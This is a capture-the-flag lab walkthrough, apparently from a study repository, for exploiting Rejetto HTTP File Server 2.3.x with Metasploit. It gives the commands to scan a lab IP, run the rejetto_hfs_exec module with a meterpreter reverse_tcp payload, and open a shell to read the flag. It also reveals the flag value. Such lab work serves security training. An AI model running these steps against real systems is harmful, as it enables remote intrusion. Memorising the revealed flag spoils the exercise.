


# 🔬HFS - MSF Exploit

## Lab 1

>  🔬 [Windows: HTTP File Server](https://attackdefense.com/challengedetails?cid=1945)
>
>  - Target IP: `10.2.19.226`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution](https://www.exploit-db.com/exploits/39161)

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.19.226
setg RHOST 10.2.19.226
workspace -a HFS
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 10.2.19.226
```



```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
info
# Description:
#   Rejetto HttpFileServer (HFS) is vulnerable to remote command 
#   execution attack due to a poor regex in the file ParserLib.pas. This 
#   module exploits the HFS scripting commands by using '%00' to bypass 
#   the filtering. This module has been tested successfully on HFS 2.3b 
#   over Windows XP SP3, Windows 7 SP1 and Windows 8.
run
```

```bash
# Type of payload can be changed base on the target O.S. architecture
set payload windows/x64/meterpreter/reverse_tcp

# Always check for the LHOST and LPORT values
run
```

```bash
shell
cd /
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>


`f74c8347798f4082daf4b4570dba094a`



</details>

------

